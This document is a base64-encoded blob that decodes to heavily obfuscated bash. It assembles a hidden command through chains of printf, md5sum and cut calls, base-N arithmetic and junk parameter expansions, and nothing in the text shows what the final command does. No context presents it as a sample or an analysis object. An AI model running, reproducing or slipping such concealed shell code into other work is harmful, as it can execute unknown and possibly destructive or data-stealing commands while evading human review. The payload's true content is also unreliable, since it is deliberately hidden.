TxIJTx9ImEtLTIiJHtAJSVNUDhIR30iIyIxIjEpKzMjMiIyIikpIF0nJ1xzdSIibSAgJHsqfn0gJHtAXn0gfCAgIiR7QC8+XDRHdixTXCIvWkpMaCZ9IiAgXGMnJyQnXHg3NScnJ1x0ICAtYiAgICQoKCAgICgoLTExJHsqL05BVjcvJjt+d30jJHsqLH0yKzQzIzApKzMjMTApICkpLSRbICAoKDU2IzArIjEiNyMiMCIpKzUxJHsqIyMuTVlwXn0jJHsqLzdmbkN4ZHcvSjlxSlR9MikgIF0gJHsqL14tSEovLEJ1aSt9ICR7QCV1QTQ6XGBcfX59ICAgKSIgICR7Ki85T0JYN1dsfSAgICYmICAkeyovdCRONTsvUWUjMFklfSAgICIke0AvLz5NVE1cXWV9IiAiIiQqcCdyJ2kkJ1wxNTYndCQnXDE0NicgICJceCQoICR7Kn0gICIiInAiciR7IUB9aVxuJycke0AsfXRmICAlcyAnTHlARyYsZScgIiR7QH59IiAgJHtALH0gIHwgICR7KiV1XF5PbX0gbWQiJHtALH0iNVxzJCdceDc1JyR7Ki8vJUF6R24jRi81dEBZfW0gICAiJHtAXl59IiAkeyovQDNQNi89XCFmfH0gIHwgJHsqLzteTHpcXXojL0l8VkU+fSAkJ1wxNDMnJ3UnJCdcdTAwNzQnICAtYiAgICRbICAgKC0oLSgyMiMiMSIiMiItLTQjMTIzKSs1JHsqXl59NSMkeyolJStFR0c3SVF9eikpICAgXS0kKCggKCgke0B9MiIjIiR7QC9ocnBlfTExKzMjMSIxIikrNCI4IiMiYSIpICkpICAke0BeXn0gICApIiAgJHsqfn59ICAgJiYgJHtALCx9ICAgcFxyJCdpXHUwMDZlJ1x0JHsqL1paO1dpLyp6N1NcKF8qWH1mICAiXHgkKCAgIiR7QCMjPmNsIz9ffSIgJHsqfn0gICBccCdyJ1xpXG50IiJcZiAgJXMgICAnZEBbNE4nICRAICB8ICAke0AvL1RrZzptXCEzfSAgbSdkJzVccyd1J20gICAiJHtALH0iIHwgICR7KiVcezpHNElUVn0gICQnY1x4NzUnJHtAI2ZBNXRZPDQxfXQgLWIgICRbICgoLTM0IiMiMisiMyIxIzEpKzIkeyovTFpcIT9IWj99NSMyKSAgIF0tJCgoICgoNiI0IiMkeyojMTNWVmNPfTEqMTMjMCkrJHtALy9GU21kRk5BLzI2XClsXF1DPX02IjQiIzIpICApKSAgJHtAL00taF8vWG1QLVZcIn0gICAiJEAiICAgKSIgICRAICAmJiAkeyolTDtOJVNYfSBwXHJpbiIidCQnXHg2NicgIlx4JCggICR7Ki8vbjh2TS9ibiZpVGRMfSBccCcncidpJyIiIm4iJyckeyp+fXQnJ1xmICVzICAnaU5AbSJ2JScgJHsqfSB8ICAkeyFAfSAgICR7KiVhYmFcKFwqJDN9IG0nJ1xkJFsgKCgkeyolJTY8a1xdVX0xNyMiMCIqMTEjMSkrMiIjIiIxIjAxKSAgIF1cc1x1XG0gICR7Kix9ICAkeyovP2Zufk9NXFwvPEYtcSp9ICAgfCAkKiAgJycke0B+fn1jdXQgLWIgICRbICgtKC0oIi0iOCMiMSIwKi0yIiRAIiMiMSIwMSkrMiQqIyR7QF5efTEwJHsqLy83ZzBaZC5SbS9RPl9sfTExKSkgIF0tJCgoICAoLSgtKC00JHsqLz4+XGBEL09wUU4uV1V9NCNjKiItIiIke0AvUTE7XCh9IjM1I2EpKyIxIiI5IiM0ZSkpICkpICAkeyovL0VlfG0veFxgYnJcfVxgfSAgICIke0AsfSIgICApIiAgICR7Ki87MDpXVVZlMC9pUmhFO30gJHsqXn0gICAmJiAgICR7Kn59IHByJydpJ24nJCdceDc0JyJmIiAgICJceCQoICIke0B+fSIgJ3AnJ3InJCdceDY5bidcdCQnXHUwMDY2JyAgJXMgJ15pQEInICAgJHsqXn0gJHsqXn0gIHwgJHshKn0gIG1kNSQnXHg3MycidSIkeyovLzgwSStcW015L15rQWFCXHtqOX1tICAgJHsqfSAiJHtAfSIgICB8ICAgJHsqfn0gJHsqJSVPakdmc1wofSAgYyJ1IicnJCdceDc0JyAgLWIgICRbICAoKC0zIjYiJHsqLy9hQz1Ddi9cYCxcKGF9IyR7QCVDXH1cfTlLNy59MiotNTkjMSkrJHtALy85b0tlaUo3Xi9JQSs/Sk1cWyt9NCIjIiR7KiMjMCRlLmRJRX0xJHsqfTEpIF0tJCgoICAoLSgtKDIiIyIxIjAiMCokeyolJVx9S3VFfTMkeyojWlRIXFtjdFZUfTcjMikrNSR7QF5efTMjJHsqIyN0XFd4M1xgfTApKSAgKSkgICQqICAkeyojI2tcYDJXfSApIiAgJHsqLzViXEtlLmM5fSAgJCogOyAgJHsqXn0gICIke0B+fn0iICIicCR7KiUlO1x7VGEyXChTcn1yXGkibiIke0B+fn10ZiAgICJceCQoICAgIiR7QF5efSIgICAkJ1x1MDA3MCciInIiImkkJ25cMTY0JycnZiAlcyAnOkxXKScgICR7Kn59ICAgJHsqJSV0S18rcTV9ICAgfCAke0AvL1ExNWFceS9BP05qOS59IG0iImQkWyAgICgoLSI0IjYiJHtALy86aEVBL1MmVWVzYiZ9IiMxLTMjMSIwIikrOCMxIjEiKSBdJCdceDczJ3VtICAgJHtALCx9ICB8ICAgJHsqfn59ICR7Ki8vOzhcXWN9IGN1IiJ0IC1iICAgJCgoICAgKCgzIiMiMTAqMyIwIiRAIzEpKyI0IiIjIjIkeyovZl4lSjExXCJYfTApICkpLSRbICAoLSgtKDMiIyIkeyp+fn0yMSske0AjIy5wJlx7RX0zJHsqIyN0QUZcIn01IyIke0B9ImkpKzI5IyJkIikpICBdICAkeyovO08kNGFrfSAgICR7Ki9vcmw1aH0gKSIgICR7Kix9ICRAICA7ICAgJHsqL1wiXGBRP1d0L1MuTHp9ICBwciIiaScnJCdcdTAwNmUnInQiIiIkJ1wxNDYnICAiXHgkKCAgJHtALy8kZ0xBOyRoS30gICAiJHtALzMkQldYXCkvdVo5Lixfan0icHJpbiIidFxmICVzICAgJ2MzdTVwMicgICR7QF59ICR7QCMjTWVcKS0/ei0tfSB8ICAke0B+fn0gICAke0B+fSBtXGQnNSdzJCdceDc1JyJtIiAgIiR7QCU4dUVwXFx9IiB8ICR7Ki8vXCEzMCYrTyptL3p2XChcW0F9ICR7Kn5+fSAgICQnXHg2MydcdSIke0AjI1wpWmJLfSJ0IC1iICRbICgoIiR7QCx9Ii0yMSMke0BeXn0yKi0yJHsqJSQxMlwhbV59OSMyKSszNyIke0AjI0VcKDRLclF9IiNkKSAgIF0tJCgoICAgKCgtIjIiIiMiMTEqLSIke0B+fn0iMiMxJHsqfn59MSkrIjQiIyIyIjEpICAgKSkgICIke0AjI3UxSSN8Yn0iICAgKSIgIiR7QCMjQitNZnElfSIgICAkeyp+fSA7ICAiJHtAI08zSF5ScjF9IiAiJHtAfn0iICR7QC8vTHJNeC9nQ2UsfXAkJ3JcMTUxJyIibnQnJ2YgICJceCQoICAgJHtAfn59ICAgJHtALH0gcCJyIiR7KiM4c24maH1pJycnbidcdGYgICAlcyAncSoxaFMjdk4nICAke0B+fSAkeyp+fn0gfCAgJHtAL1x9OFVySn0gICcnIm0iJHsqLCx9ZCc1J3N1JHsqLy83dWZyc0wvNlwpPE1GUFJ0fW0gJHsqJTRXXGAtfSB8ICAkeyovL3VTTlxgLzVqdGVfQEB9ICAkeyojRlxdS2ZMRW99IGMnJyQnXHUwMDc1J1x0ICAtYiAgJCgoICAoKC0zIzIiMiIrNDMiIyIxKSs1NiNpKSAgKSktJCgoICAoLSgtKDckQCMwLS0zIjYiIiMiaykrIjciIzExKSkgICkpICR7QF59ICAgKSIgICIke0AjOiNfaD1cXH0iICAgJiYgICAke0B9IHByJyckJ1x4NjknJyduJHtAXl59dFxmICAgIlx4JCggICR7QH0gJCogICAkeyojeTlHQlwhfXAkJ1x1MDA3MlwxNTEnJHsqLH1udGYgJXMgICAnY1ZxSScgICR7KiMjXHNWY21cIX0gICB8ICR7Ki8vUG16OyMvPXRwZjMufEx9ICAgIm0iIiJkJCc1XDE2MyciInVtICR7QF5efSAgIiR7QC8vY0hFXCI+Ly40VVwhfSIgIHwgICIke0B9IiBcYyQnXHUwMDc1dCcgIC1iICAgJCgoICAoKC01JHtAfn59MyMiMSIqLTUjMTEpKzIzIyJpIikgICkpLSQoKCAgICgtKC0oNCIke0AjIypfXyVIXH19IjIiIyJELSItIiI1IiR7KiUwVGFAI2E+Sn0zIiMiQSkrNDgjIjEiMikpICApKSAgJHtAfn0gKSIgICAkeyolJUNAVWlOJn0gJHsqLy8jcXNSYmJ9IDsgICAkeyosfSAgJHtALCx9ICAkeypeXn1wJCdceDcyaW4nInQiImYiICAgIlx4JCggICR7QC9kTzpwL3hcfUo8VH0gICAkeyosLH0gICAicCIncidpXG50ImYiICVzICAgJyxgZ0B8a30nICAgJHtAL1VrcUNJfSAgICR7QCwsfSAgIHwgJHshQH0gICAke0BefSAgICR7Kl59bVxkIiIkWyAgICgoLTI1IiMiJHsqJVd3aFx7fTIrMSI3IiIjIjApKzQke0AlXDdnY2t9IzEiJHtALzplVVpES30iMykgXSJzInVcbSAgICR7Ki8vMm06dVwpdlYvQWgsTH0gIHwgICQqICAgJCdcMTQzdSd0ICAtYiAgJFsgKCgxNyR7QC8vXF1UcHEvemVwPjt8NTt9I2MqJHtAXn0tNSR7Kl59IzEke0B9NCkrNTMjIjIidykgXS0kKCggICAoKCIzIiR7Kl59IzEyKzIxI2MpKzM0IiR7QH59IiMiJHtALCx9ImUpICkpICAiJHtALzl3JnNQcHozfSIgICApIiAgJHtALy9PLVRAfSAkeyovL0M/aTJMXyYvXCFLaU1nP019ICA7ICAiJHtAL0hAS1BkfSIgICAkeyojXCJcKEM5XF1ZXGBlfSAgIHByXGludGYgICJceCQoICIke0B9IiAgIHAnJ3Jpblx0ZiAgJXMgICAnUzlALScgIiR7QF5efSIgICQqIHwgICAkeyovbzRvcWhtay9cIVpqXCkxMn0gIG1kJFsgICgoNCI1IiIjIiIwIistNDMjMSkrIjIiIzExMCkgXXMiJHtAfn59InUiJHtAL08zfDFcUX0ibSAiJHtAI3NyMGEsVTZOfSIgICAiJHtALy83bkpcW2NrL0ksODdQfSIgfCAgIiR7QC95Pis8Zlx9ZlwofSIgICAkeyovLy1UJkB5XCh0L0I4S0lGfSAgIFxjIiR7QCVcW2FtVndAKn0idSR7Ki8vdno+XGBhTHJ5L2ZAXHtXVlp9dCAgLWIgICAkWyAoKCItIjIjMTEqMyMxIjAiKSsyJHsqJXZeNFhVfTMjMTMpIF0tJCgoICAoKC0iMSIiNSIjMSozIjQiIiMiMSkrNTYiIyJqKSAgICkpICAkKiAgKSIgICR7Kn5+fSAke0B9IDsgICAkeyosLH0gICAkeyp+fSAicCIkJ1wxNjInJ2knXG50ZiAgICJceCQoICAgJHsqLCx9ICAgIiIkJ1x4NzAnInIiJ2knJCdcMTU2dGYnICAlcyAnITdJfmFRJyAkeyFAfSAkKiAgIHwgJHsqIyNZQFx9fn0gJHsqfn1tJCdcMTQ0JycnXDUiIiQqcyJ1Im0gICAkKiAgJHsqLCx9ICB8ICAgJHshQH0gJHshQH0gICBjdSQnXDE2NCcgIC1iICAkWyAgICgtKC0oMzgjcis0IiR7QC8wQ1hCLyRJfF81UzVhfSI0IzFiKSs0MiMxYikpIF0tJFsgKCgtJHtALCx9MTQkeyojIyZWWUcxfSMzNSstNTYjaSkrIjIiMiMiNCI3KSAgXSAgICR7QC9ce1woZ3FZcjMvLGlcKWpcfWUufSAgIiR7QC8lLD1nZ2xiLn0iICAgKSIgICR7Kl59ICAgOyAgICR7QCU2Zm1ic0RRfSAgJHsqL1gsfkR3L0pfc199cCdyJ2kkeypefW5cdCcnJHtAIyNIPTlMJURpRn1mICAgIlx4JCggICIke0AlJSYtXF01dkl9IiAgJHtAXn0gICJwIiR7Kl59cmluIiR7QCMjMVxgTVM1XF12fSJ0ZiAlcyAgJ1FQQ3UnICAgJHtAL251d099ICAgfCAgJHsqI2pyMUNRfSAgIFxtIiIkeyosLH1kNVxzIiIkJ1wxNjUnJHsqfW0gJHsqfn0gJHsqXl59ICAgfCAgICR7Ki9uQ3JsJn0gJydjdSIke0AlXFFTPFxbLUF8fSJ0ICAgLWIgICRbICAoKCR7KiVcIk9SWFwpfTE0IiMiMiotMzkjMSkrNiIke0AvJm5LTH0iIyR7QC8vbnE+cS9VV05zJFx9QHN9MyIxIikgXS0kKCggKCgiMSI4IzAtJCoyIiR7QC9CXHtwR3ovXH0xR1QlfSIyI2QpKzYiJHtAXn0iMSMidiIpICApKSAgJHtAfn59ICkiICR7QF59ICAgJHshKn0gJiYgICAkeyolJSZUYyR9ICAke0AvL209XF1ofSAicCIkeyojXF1cIkBYK2d9ciQnXDE1MW4ndFxmICAgIlx4JCggICR7QCMjUDA3RHx9IHAkJ3JcdTAwNjknJyduJHsqXn10IiJmICAlcyAgJ198JjJ2S29HJyAkeypefSAgJHsqfSAgfCAgICR7Kn0gICR7Ki8vak5hMEtkL1xESSNVRHpofSBcbWQiIiQnXHgzNScnJ3MkJ1wxNjUnJydcbSAke0B+fn0gIiR7QH59IiAgIHwgICIke0AsfSIgIiR7QCUlOD0/LWZ0MD19IiAgIFxjdSR7KiNWS3hcPis+V310IC1iICAkWyAoKDMjMTAqJHsqfn0xOCMiMSIpKyQqMiIwIiNiKSBdLSRbICAoLSgtKDEyIyIke0AlXFtrS1xgZ1xgfSIyIjMiLSR7KiwsfS0xIjkiIzEiYiIpKzYyI0cpKSBdICIke0BeXn0iICkiICR7Ki9uVUhYeFR9ICAgJHtAL0YtVU1XVC81XF1cfVwoSFhuaH0gOyAgICIke0B+fn0iICAkeyovL01wfEw4YV9qL2RsXCFSViZAWX0gIHAncidcaSR7Kl59biR7QCV6JiY+KkJcXU59dCcnJHshQH1mICJceCQoICR7Ki8vfkR4JFZUXFt9ICAgIiR7QH0iICBccCR7Ki90dGsxcVxgd3kvVW5yVX1yJyckJ1wxNTEnJydcbiIke0AsLH0idCQqZiAgICVzICcjXXt+azM3JyAgICR7Kn59ICR7Kn59IHwgICR7Ki8vJHxcXWMvXGArNlU/fSBtJHsqLy9UNXpcInJhXH1SLz1YdytmLlZwfWQkKCggKCgtMTUjJHtALy92PEg4OzEvZXgsPVR9MSoyIjAiIzApKzIiIyIiMSIwMSkgICkpc1x1bSAgJHsqLy9nLSVLLGguJS8rXEMwfSAke0AlPXxaNSZ1fSAgfCAgICR7QCN0dzFzfSAgXGMndSd0IC1iICRbICAoKDQjMTIqJHsqXn0tMiIjIiIxIjAxKSsyNiIjIiIxIiJqIikgIF0tJCgoICgoLTMjMTAqNTEjMikrMyR7KiNUKztnYiNxfTgkeypeXn0jIm0iKSAgKSkgICIkQCIgJHsqJSU4K0hmYmt9ICkiICAkeyolJWVcKDJqPUh5fSAmJiAgJHsqLy92T3lcIn0gICAke0AsfSAgIiIkJ1x4NzBceDcyJyR7Ki8vekVHfCV4ZS9nNHN4fWluJCdcMTY0J1xmICJceCQoICAkeyovXFtVOCt9ICR7QH1wJydyJydpbiJ0IiIke0B+fSJmICVzICAgJ3sjUjJeJyAgICR7Kl59ICAgfCAgJHsqL1EwcTAwbzIvXChcW0ppQFh9ICAgJydcbVxkNSR7Ki8vQllWU3FnbEJ9c1x1bSAgICR7Kn0gfCAgICR7IUB9ICAiIiQnY1x4NzUnXHQgLWIgJFsgKC0oLSgiJHtAIyM5fD1TfSItJHsqXl59MiMiJEAiMTAkKjErIjIiNiR7ISp9IzFoKSs0MyMiZCIpKSAgIF0tJCgoICgtKC0oMiIke0B+fn0iNiQqIyR7Kn5+fTE1LS0yMyNhKSszIiR7QCMlXCkrcC59IjUjZikpICApKSAke0AjaXc/YzN6YWh9ICkiICAke0AsfSAmJiAgIiR7QCx9IiAgICIke0AjYyZBOX0iICAkeyolc1VmaUErfXByaScnbiJ0ImYgIlx4JCggICR7ISp9ICAgJHsqL3dJQFVZfSAgICR7QCwsfXAiciJpbnQnJydmJyAgICVzICc0OjdnRScgJHsqLy9vUzxcXVomNi8uX3E7fSAgIiR7QH5+fSIgICB8ICAkKiAgICR7Kl5efSBtZDVccyIiXHUnJydtJyAgICR7QH59ICB8ICR7KiUlbC1uS153fSAnJ2N1dCAgIC1iICAkKCggICAoLSgtKDMiNyIkeyosfSMwKzMjIjEiMCIwIikrIiR7QC81XHs9WVxbeC9RaFZpaVpcImt9IjUwIzEpKSAgKSktJFsgICgtKC0oIjYiMyR7Kix9I2QtLTMjMiR7Kn0yKSs1MiNjKSkgIF0gICAkeypeXn0gKSIgICR7IUB9ICAke0AsfSAmJiAgJHsqL3lNanBnLyQwbElBT30gICIke0AjTCpcIi5GNit9IiAgJydwcmluJCdcdTAwNzQnJCdcdTAwNjYnICJceCQoICR7KiwsfSAgICR7Kn5+fSAgIFxwJyckJ1x1MDA3MmknIiInbicidCJmICVzICAnUShVZycgJHtAL1wia0Rce1wheEd9IHwgICR7QCUlJnN6TipPfSAgICcnJCdceDZkZCciJHtALy8/ZVY3fSI1IiR7QC8vVnVOV2t9InMkJ1x1MDA3NScibSIgICQqICAgIiR7QCx9IiAgfCAke0AsLH0gIiRAIiAgICQnXDE0MycidSIkeyojI1NcW1xjen10IC1iICAgJCgoICAoLSgtKDE3I2MtLTgjMSIke0B+fSI3KSs1NyNoKSkgICApKS0kWyAoLSgtKC0keyovIz9Tai9fZCZmLH01IzEzKzUiNiIiJHtAXl59IiMke0BefW0pKzMiIyIiMSIwKSkgIF0gJHsqIyNzeH5PfSApIiAgIiR7QCx9IiAgJHtAIzhOYS19IDsgJHsqI1xyblpvKn0gICAkeyp9ICJwIiIke0BeXn0icmknbicidCJmICAgIlx4JCggJEAgICR7IUB9ICAgcFxyXGkkJ1x1MDA2ZVwxNjQnZiAgICVzICAgJ0VkZld2SicgICAkeyovL1xgKlwiVE8sWXJ9ICAkeyovL0doYnlRXisvXGc1dH0gfCAgJHsqIyM/LE5iYn0gIm0iJCdceDY0NSdccyR7Ki8vXHswJVF9dSJtIiAgICR7QCVXXCFPXCF9IHwgIiR7QCMrPTk5fSIgIGMnJyQnXHUwMDc1JycnJCdceDc0JyAgIC1iICAkWyAgKCgtMyMxMSszIzEwKSs0IyR7KiUlXGBVZ1xgO1xdXH1cKX0xMikgXS0kKCggKCgzIyR7KiVQcTZKXGB9MTAqNDUiIyIxKSsiJHtALH0iMyMxMCkgICkpICAgJHtALypsXGBcKC9cIUpfVmlcIn0gICkiICR7KiVlR2doR1lpJX0gIiR7QF5efSIgICYmICAgIiR7QH59IiBwJHsqfXIkJ1x4NjknbnRmICAiXHgkKCAkKiAgJHsqfSBccFxyIiJpJCdcMTU2JyQndFx1MDA2NicgICVzICAnIVJMeUpvJyAgICR7Ki9KTGsqdHIvOHlcYFp9ICR7KiN5OGNcfXBLZk19IHwgICR7Ki87XCg0a30gICJtImQ1JHsqLy8sYnlcIn1zdScnXG0gICAke0B+fSAgIHwgICAkeyojI1NWQWhcfWxiXCl9ICJjInUkeyEqfXQgICAtYiAkWyAoKDYyIiR7QCUlPiNien0iIyIwIioiNSIiMSIjIjAiKSskeyp9MjAjMSkgXS0kKCggICgoLSIzIjUiJHtAfn0iIzEqIiR7QCNBVTNuYXF9IjI4IyIke0B+fSIwKSs0NyMyKSAgKSkgJHsqLy9WSlwiXFtXJX0gICAke0AvL09YRm0vWj1US3IlcUp9ICApIiAke0AlJT5qJCNROD99ICAgIiR7QH0iICAgJiYgJHtAJSV6dXpAfSAkeypefSAgIHAiciJpbiIiJHsqLCx9dCIiJHsqXn1mICJceCQoICAgJHsqLH0gJHsqfn59ICAgJCdcMTYwJyIiciR7QC8kTSpNQmhPfWluXHQkJ1x4NjYnICAlcyAgICddeU97NScgIiR7QC8vVGY+XHtSL1N4N15HbUE8fSIgJHsqfn0gIHwgICIke0AjI1pcfWlJfSIgJHsqI2wycypFdmh9ICIibSJkIicnNSQnXDE2M3UnbSAke0AvYXZ+R30gICAkeypefSAgfCAkeyp+fSAkJ1wxNDN1JyQnXDE2NCcgICAtYiAgICQoKCAoLSgtKDYxIyJqIi0tIjYiMSNwKSs2JHtAIyN2dVxbWkloRn0wIyR7KiwsfWkpKSApKS0kWyAoKC0zIzExMTErMyMkeyovUzRZSj9DMH0xJHsqXn0wKSs1IyR7Kn0yMiI0IikgICBdICIke0AvYUhxT0xfaF8vXCFJTGhqXClDfSIgJHsqLy9UTlpWJX0gICkiICR7KiMjK1pYcH0gICR7Kn5+fSAgJiYgJHsqJSVEVUhQcEosSn0gICAiJHtAJVwhNUQrPGQtLn0iICAgcHJpIiR7QCMjTnlRS30ibnQnZicgIlx4JCggIiR7QCUlXGZQT0l9IiAkeyp+fn0gICcnJCdwXHUwMDcyXDE1MSdudCJmIiAgJXMgICciXH1zJyAgICIke0B9IiAgJHsqJSVcYFhZMHV+Rn0gIHwgIiR7QCwsfSIgICAkeyovXCNJMzdQaDYvcjI2Z0NcInN9ICAgJydtZCQnXHUwMDM1JyQnc1x4NzVtJyAgJHsqXl59IHwgJHtAfn59ICIke0BefSIgIGMke0AsLH11IiJ0ICAtYiAgICRbICAgKC0oLSgtIjQiIjAiIiR7QH0iI2EqLTYiMCIiIyIiYSIpKzQ1IzEke0AvWkRhWWd2d3Z9cCkpICAgXS0kWyAoKCItIjMjMSIxIiR7QC90N0wkRmpBMH0xMCsiLSIiOCIke0AlJW5CWmkwfSMkeyojI2p4cVc7dX0xNykrJHsqL2xaXGBzfTMjMTAiMCIxMSkgIF0gIiR7QCx9IiAke0B+fSAgKSIgICAkeyp+fn0gIDsgICAke0B+fn0gJHtAIyNzOCR5PiN9IHAnJ3JpJCdcdTAwNmUndCJmIiAgIlx4JCggJHtAL0hBbWpCZn0gJHsqXl59ICBwJCdcMTYyJ1xpXG4nJ3QiZiIgICVzICAndTtXMXx4MXUnICAgJHtALy9iN1Y8Pn0gfCAke0AvL1NaRTw8Z3JifSBtZDVzXHVcbSAgJEAgICR7Ki9tekxYPm5ZL1xdOFxgR3Z9IHwgJHsqXn0gIGMkJ1x4NzUnJyd0ICAgLWIgICAkWyAgKCgiLSIiMyIjJHsqfn59MTAqMyMxIjAiKSsiJHtAIyNZXHteM2RcYDN9IjExIzE3KSAgXS0kKCggKC0oLSgiMyI1I2otLTMjIjEiMCkrMyI0IiIjImMpKSAgICkpICR7Ki98I0JALzlFVzc0Z1p9ICkiICAgJHtAL3JJc1wobWhTPn0gICAke0AjWl9YVCMzOn0gICAmJiAgICIke0AsLH0iICAgJHsqXl59IHByJyckJ1x1MDA2OW4nJ3QnImYiICAiXHgkKCAkeyovL3wyXGBIen0gICR7QH1wciQnXHUwMDY5J24ke0BefXRmICVzICdjUX0yfScgICAiJEAiICAkeyovSlxfeksvMS03QVNIQW59ICB8ICAgJEAgICAke0AvL1x7LSppbUB9ICAgbSdkJyQnNVwxNjN1JyJtIiAgICR7QH5+fSAgfCAiJHtALy9mcyx+XCF9IiAgIiR7QCMjXFtJJkFtU3dLfSIgJydcYyIiJCdcMTY1dCcgIC1iICAgJFsgICgoLTQiMiIiIyIkeyovLz9hMlwoMH0yKzQ4I2EpKzQ0JHsqI1xXJlxbQy59I2spICAgXS0kWyAgKC0oLSgtJHtAfn59NiMxMC0iLSIiNSIyJHsqLy9VMzlIby9zOnlcIk19IzEkeyojI08uTnZUWX0wKSsxIjYiIiMiMTEpKSBdICAgJHtALy92fmt8QT83fSAgICkiICAiJHtAXl59IiAmJiAgICRAICAgIiR7QCNMcU16fSJwXHIiIiR7Kl5efWlcbiQnXHUwMDc0ZicgIlx4JCggJHsqJTYxcy1BOlwhfSAgICR7Kl5efSAkJ3BcMTYyJyIiImkiIiIkJ1wxNTYnIiJ0ZiAgJXMgJ1EyQy0je3EnICAgJHsqfSAgICR7Ki8vMzVHWVxgXChaWn0gfCAgJHsqXn0gICBcbWQkKCggICAoLSgtKDgjIjEiMC0tIjMiNyMxKSsyIzEwIiR7QC8vJit+XHsvTyVmO019IjApKSApKVxzdVxtICAke0BefSAgfCAgICR7Ki8vaXZWTU1WMy96Wm9tfSAkeypefSAgIGN1XHQgICAtYiAgICQoKCAgKCgiLSIke0AvZFlUcmU7VS8/MC1ce300NyNpKyIyIjIjZykrNSMkeyojI0tET2dGQ3B0fTEwMSkgICApKS0kWyAgKCgiLSIyMyNhKyR7Kl5efS05IiR7QH5+fSIjJHtAXl59MTApKzYjIjEiIjEiJHsqLCx9MikgIF0gICAkeyFAfSAgICR7Ki9hLnhMXFs6US9tUnN1QFxbOVF9ICApIiAgICR7KiNxLVx9ciVtfSAkeyp+fn0gIDsgICAkeyojd1dce3J3R059ICAkJ1wxNjAnXHIiJHtAL2M5WHZEfSJpXG4iIiIke0AjI1wpPlxbO1pBfSJ0ZiAgICJceCQoICAgJHsqfn0gICBwcmluJHshQH10JHsqJSVcYEZrakt9ZiAlcyAnRjhUfCcgJHsqLyxqc19zL3FINnI0cX0gfCAgJHsqfn59ICAkeyojI09ce2NLWlx2fSBtJ2QnXDVccyJ1Im0gICR7KiV6PFwoc2UuVjF9ICAkeyovej1qN1huJi9EfGJ5LFxdJX0gfCAkeyovX15eYm5JL2VwPmxxVX0gIFxjXHV0IC1iICAkWyAgICgtKC0oJHsqLH00NyNrKzQkeyFAfTciIyJwKSs0MyMibyIpKSAgIF0tJFsgICAoKDE2IzE0LTQ5I2EpKzY0I2MpICBdICR7QC9+S1x7N1hvLysweUlWfSAgJHsqLy9MKz5cMn0gICApIiAgJCogJiYgICIkQCIgICAiJHtAJW1WdGZ9IiAgIFxwciR7Kl59aW50JCdcdTAwNjYnICAgIlx4JCggICAiJHtAfn0iICR7QH5+fSBwJCdyXHg2OScnbid0JHsqL01cXTp6Wi9cKCVWTH1mICAgJXMgICAnek9zST5mJyAgICR7Kl59ICAgfCAkeyovTFxbQ18uVnp9ICAiJHtAXn0iICAgbWQkeyp+fn01XHMndSdtICIke0B+fSIgIHwgICAkeyp+fSAkeyEqfSAgYyQnXHg3NXQnICAtYiAgICRbICgoJHsqLy9UVj95L1RNNEZ9LTIkeyojI355PlV9NiMibSIrMzYjInIiKSsiNCI0I2IpICBdLSRbICAoKCIzIjUjMCoiMiIkeyp+fn03IzEpKzExIyR7KiNfdCVUdFx9fTEiNiIpIF0gICR7QC8vTVpaZlwhXCFlNH0gKSIgJHsqJSVxVjZSfSA7ICR7Ki8vOUsrflxbL15CNU99ICAgcHIkJ1x4NjluJyIiJCdceDc0JydmJyAgIlx4JCggICAiJHtAJTwlPld1Tll9IiAgcFxyXGluJyckJ1x1MDA3NGYnICAlcyAnbGFwOicgICIke0AsLH0iICB8ICIke0AjPVdfXCh9IiBcbSIiJCdcMTQ0NXMndW0gICIke0AvL0tjfCZHfSIgIHwgICAke0B+fn0gICR7QH0gJCdjXHg3NXQnIC1iICAkKCggICgoLSIzIjQjMSotMyMxMSkrNDUjJHsqL0xCK2pTTHw1fW4pICApKS0kKCggKCgiMyIiMiIjZSoiJHtALy9ndTw6YWYvLWpcW1xgfSItNSMxMikrNjEjIjIiNCkgKSkgJHtAfn0gICAkeyolczlJJH0gICApIiAkeyEqfSAgJiYgICIke0AsLH0iICR7KiNcXUFWJUV8fSAgInAiclxpbicnXHQkJ1x4NjYnICJceCQoICR7Kl59ICAke0AvXCJvPlwiL0xMekZ9ICAgcCcnJCdcMTYyJ2luIiIndCciIiQnXDE0NicgICAlcyAgJ1MtbH5Ialo6JyAgIiR7QF59IiAgIHwgICAkeypeXn0gICBtZDVzdScnbSAkeyEqfSAgIiR7QH0iIHwgICR7Ki9lXCklalx7aC9CQ2NcKExAfSAgJHsqLH1jJ3UndCAgLWIgJFsgICAoKCItIjYyIiR7QH0iI2wrLTYjMTEpKyI0IiIke0AlXlkwcHI2bH0iOSNFKSAgIF0tJCgoICgoMTEkeyolJSY/XClUfSMke0AsfTEqIjMiJHtAJSU6RnhcIX03IyR7Kn5+fTEpKyI0IiI2IiNjKSAgICkpICAkeyolJUZPOD1QfSAkeyFAfSAgKSIgICR7Ki8vR01LMEpcWzxcYH0gOyAiJHtAJTRYMVZJXCF9IiAgJHsqXl59ICBwcidpJyR7QH1udFxmICAiXHgkKCAgICR7QF5efSAgJHshKn0gICAnJ3AnJyQnXHg3MidcaW4ndCdcZiAgICVzICdecDB7JyAgJHshKn0gJHtAXn0gIHwgICR7QH0gJHtALy9weldJcS9hMWdGfSAgIiIkeyolNFd+N3x9bWQkWyAgKCg3IiMiMSIxIi0zIiMiMTIpKzQyIzIpICAgXXNcdW0gICAkQCAgJHtAJSUtU34jRjU4K30gfCAgJCogICBjJCdcdTAwNzUndCAgIC1iICAkKCggICAoLSgtKDI1IzFtLS03IiMiNjYpKyR7Kn0zNyMkQDF0KSkgICkpLSRbICgtKC0oLTMiIyIiMiIyLS0zMiMkeypefTFhKSs0IzEwKSkgIF0gJHsqIytcLD59ICkiICAkeyovXH1RPlwhaXgqL2dwNEB0UFwpeX0gICA7ICAgJHsqIyNBXGA4Lm52cDx9ICAgJHtALy9ce3M9U0dUfSAicCIiIiQnclwxNTEnIiJudCR7ISp9ZiAgIlx4JCggICAiJHtAIyNvMnkkejBPfSIgICR7Kn59ICAkeyFAfXByJyciaSIkJ25cdTAwNzQnJydmICAgJXMgICcsaWcsdycgICAkeyovL1IraFl9ICB8ICAgIiR7QCwsfSIgICAiJHtAfn0iICAgbWQ1c3VtICAgJHsqL3QlO2pCLX0gfCAiJEAiICR7Ki9STzJHSSROO30gICIiImMiJHtAfn11JCdceDc0JyAgLWIgICAkKCggICAoKC0zNSIjImctMiMxJHtALCx9MDApKyR7ISp9MjEjIjIiMCkgKSktJCgoICAgKCgtNSMyKjIjMTEpKzE1JHtALCx9IzEiZSIpICAgKSkgIiRAIiAgICR7QH5+fSAgKSIgICAkQCAgICYmICR7Kiws